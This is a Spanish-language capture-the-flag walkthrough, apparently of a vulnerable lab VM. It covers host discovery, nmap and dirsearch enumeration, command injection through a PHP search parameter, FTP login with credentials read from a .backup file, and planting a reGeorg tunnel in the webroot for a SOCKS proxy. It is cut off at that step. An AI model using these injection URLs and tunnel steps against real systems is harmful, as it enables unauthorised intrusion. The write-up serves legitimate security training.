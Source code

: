 Primero Obtenemos la IP de nuestra maquina atacante:
```
ifconfig
```

Utilizando " netdiscover " procedemos a encontrar los equipos conectados en la red:
```
sudo netdiscover -r 192.168.1.0/24
```

Una ves encontrada la IP de la maquina victima comenzamos a realizar un escaneo de puertos, utilizaremos " nmap ":
```
sudo nmap -sV -A -T5 192.168.1.30
```
- ![[nmap.png]]
- En el escaneo nos damos cuenta que tiene abierto el uerto 80 corriendo un servicio we con apache y el puerto 21 corriendo un servicio de FTP.

Procedemos a verificar si existe un sitio WEB de la maquina entramos al navegador con el siguiente link:
```
http://192.168.1.30/
```
- Nos redirige al siguiente sitio en el cual nos damos cuenta que contiene una carpeta que nos redirecciona a la página web:
	- ![[sitefolder.png]]
	- http://192.168.1.30/site/
	- ![[paguina_inicio.png]]

Revisamos el código de la página y encontramos un buscador en el siguiente link: http://192.168.1.30/site/busque.php?buscar=
pero ademas utilizando la herramienta " dirsearch " realizamos una enumeración de directorios para encontrar directorios y archivos:
```
dirsearch -u http://192.168.1.30/
```

Utilizando el link " http://192.168.1.30/site/busque.php?buscar=ls%20-al%20.. " recorriendo una carpeta atras y buscando archivos ocultos nos damos cuenta que podemos interactuar con comandos en el servidor, encontrando con un .backup:
- VER CÓDIGO PHP: view-source:http://192.168.1.30/site/busque.php?buscar=cat busque.php
- ![[link_buscar.png]]
De igual manera con al herramienta que utilizamos para enumerar los directorios " dirsearch " desucbrimos que detecto un archivo oculto seria el .backup:
- ![[dirsearch.png]]

Podemos ingresar por medio de la url al " .backup " y veremos unas contraseñas las cuales podemos ver si nos conectamos por medio de ftp:
- USERNAME: jangow01
- PASSWORD: abygurl69
```
http://192.168.1.30/.backup
```
- ![[credenciales_backup.png]]

Nos conectamos por medio de ftp:
```
ftp 192.168.1.30
Connected to 192.168.1.30.
220 (vsFTPd 3.0.3)
Name (192.168.1.30:hunter): jangow01
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Entrando a la ruta " /home/jangow01 " y haciendo el siguiente comando:
```
ls -al
```
- Encontramos un archivo user.txt el cal contiene la flag, podemos descargar el " user.txt "
```
	 get user.txt
```
- y una ves descargarda podemos ver su contenido con " cat ":
```
	cat user.txt
```
- FLAG: d41d8cd98f00b204e9800998ecf8427e
- ![[flagUSER.png]]

AHORA ES MOMENTO DE ELEVAR PRIVILEGIOS:
Revisando la herramienta " [**reGeorg**](https://github.com/sensepost/reGeorg?ref=ciberseguridad.blog) " subiremos un tunel, crearemos un proxy:
- ya que tenemos acceso por ftp utilizando la terminal o filezilla llevaremos " tunnel.nosocket.php " que se encuentra en la carpeta de la herramienta a la maquina victima en la carpeta " /temp "
- ![[filezilla.png]]
- Procedemos a copiarlo a la siguiente ruta desde la web:
	- http://192.168.1.30/site/busque.php?buscar=cp%20-v%20/tmp/tunnel.php%20/var/www/html/site/tunnel.php
- Una ves subido podemos utilizar ahora " reGeorg ":
```
python reGeorgSocksProxy.py -p 8080 -u http://192.168.1.30/site/tunnel.php
```










